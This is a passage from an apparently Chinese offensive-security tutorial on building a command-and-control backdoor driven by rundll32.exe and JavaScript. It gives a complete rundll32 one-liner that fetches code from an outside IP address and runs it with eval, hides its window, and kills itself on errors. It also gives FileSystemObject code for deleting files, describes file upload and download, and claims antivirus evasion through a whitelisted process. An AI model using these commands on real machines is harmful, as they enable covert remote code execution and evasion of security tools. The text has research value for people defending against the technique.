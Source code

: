 通过调用`new ActiveXObject("Scripting.FileSystemObject")`读取回显内容，然后再回传信息

**（相关细节可参照结尾提供的参考代码）**

**7、解决连接超时的问题**

通过以上的分析，如果要解决连接超时的问题，需要对Clinet执行的命令添加如下功能：

1.  捕获错误消息
2.  进程自动退出
3.  全过程不弹黑框

所以Clinet执行的命令最终优化为：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e{new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

```

**8、解决server端无法正常退出**

加入exit命令判断，如果输入exit，那么Client调用taskkill结束自身，Server同样执行exit退出

**（相关细节可参照结尾提供的参考代码）**

**9、解决删除文件的问题**

通过调用`new ActiveXObject("Scripting.FileSystemObject")`实现

示例代码：

```
fso1=new ActiveXObject("Scripting.FileSystemObject");
f =fso1.GetFile(d);
f.Delete();

```

**（相关细节可参照结尾提供的参考代码）**

**10、解决文件上传下载**

示例如图：

![Alt text](http://drops.javaweb.org/uploads/images/68ff634bd2167e25433a5d587bea84205784d2c3.jpg)

示例代码可以实现简单的文件上传下载，但里面存在一个小bug，如果你投入精力，不难解决

0x06 补充
=======

* * *

### 1、白名单进程，免疫杀毒软件

由于是通过rundll.exe调用的代码，所以杀毒软件会放行，不会拦截

### 2、检测
